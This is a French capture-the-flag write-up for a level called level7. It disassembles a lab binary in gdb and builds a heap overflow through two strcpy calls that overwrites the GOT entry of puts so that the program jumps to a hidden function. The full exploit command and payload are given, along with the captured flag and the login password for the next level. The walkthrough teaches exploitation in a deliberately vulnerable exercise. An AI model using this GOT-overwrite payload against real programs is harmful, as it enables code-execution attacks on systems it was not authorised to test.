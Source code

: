On se connecte sur le level7, ou se trouve un **binaire** <code>level7</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb level7 -q 
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   %ebp
   0x08048522 <+1>:     mov    %esp,%ebp
   0x08048524 <+3>:     and    $0xfffffff0,%esp
   0x08048527 <+6>:     sub    $0x20,%esp
   0x0804852a <+9>:     movl   $0x8,(%esp)
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:    mov    %eax,0x1c(%esp)
   0x0804853a <+25>:    mov    0x1c(%esp),%eax
   0x0804853e <+29>:    movl   $0x1,(%eax)
   0x08048544 <+35>:    movl   $0x8,(%esp)
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:    mov    %eax,%edx
   0x08048552 <+49>:    mov    0x1c(%esp),%eax
   0x08048556 <+53>:    mov    %edx,0x4(%eax)
   0x08048559 <+56>:    movl   $0x8,(%esp)
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:    mov    %eax,0x18(%esp)
   0x08048569 <+72>:    mov    0x18(%esp),%eax
   0x0804856d <+76>:    movl   $0x2,(%eax)
   0x08048573 <+82>:    movl   $0x8,(%esp)
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:    mov    %eax,%edx
   0x08048581 <+96>:    mov    0x18(%esp),%eax
   0x08048585 <+100>:   mov    %edx,0x4(%eax)
   0x08048588 <+103>:   mov    0xc(%ebp),%eax
   0x0804858b <+106>:   add    $0x4,%eax
   0x0804858e <+109>:   mov    (%eax),%eax
   0x08048590 <+111>:   mov    %eax,%edx
   0x08048592 <+113>:   mov    0x1c(%esp),%eax
   0x08048596 <+117>:   mov    0x4(%eax),%eax
   0x08048599 <+120>:   mov    %edx,0x4(%esp)
   0x0804859d <+124>:   mov    %eax,(%esp)
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:   mov    0xc(%ebp),%eax
   0x080485a8 <+135>:   add    $0x8,%eax
   0x080485ab <+138>:   mov    (%eax),%eax
   0x080485ad <+140>:   mov    %eax,%edx
   0x080485af <+142>:   mov    0x18(%esp),%eax
   0x080485b3 <+146>:   mov    0x4(%eax),%eax
   0x080485b6 <+149>:   mov    %edx,0x4(%esp)
   0x080485ba <+153>:   mov    %eax,(%esp)
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    $0x80486e9,%edx
   0x080485c7 <+166>:   mov    $0x80486eb,%eax
   0x080485cc <+171>:   mov    %edx,0x4(%esp)
   0x080485d0 <+175>:   mov    %eax,(%esp)
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:   mov    %eax,0x8(%esp)
   0x080485dc <+187>:   movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:   movl   $0x8049960,(%esp)
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   movl   $0x8048703,(%esp)
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax
   0x08048601 <+224>:   leave
   0x08048602 <+225>:   ret
End of assembler dump.
```

En regardant les fonctions utlisées, on trouve :

```gdb
(gdb) > i functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
```
On trouve la fonction **m** non-utilisée:

```gdb
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
```

L'objectif ici, après analyse, est de se servir de l'overflow du premier **strcpy** sur le premier argument du second, ce qui nous permettra de modifier dans la **GOT** l'adresse de **puts** par l'adresse de **m**.

On cherche donc l'offset du premier **strcpy**:

```gdb
(gdb) > b * 0x080485bd
Breakpoint 1 at 0x80485bd
(gdb) > r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz AAAA
Starting program: /home/user/level7/level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz AAAA

Breakpoint 1, 0x080485bd in main ()
(gdb) > x $esp
0xbffff630:     0x46464646
```

On voit qu'il y a un **overflow** sur le premier argument du second **strcpy**, qui arrive au 0x46464646,ce qui correspond a FFFF, donc on a un offset de 20.

On connait l'adresse de m : **0x080484f4**

On cherche l'adresse à modifier de **puts**:

```gdb
(gdb) > disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:       0x08048406
```

> L'adresse est donc : **0x8049928**

Pour exploiter cette faille, on utilise la commande
<pre><code>> ./level7 `python -c "print 'A' * 20 + '\x28\x99\x04\x08'"` `python -c "print '\xf4\x84\x04\x08'"`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1611921399
</code></pre>

> Offset + Adresse de puts + Adresse de m

For download :
<pre><code>scp -P4242 level7@192.168.1.78:level7 .</code></pre>
> Password : f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d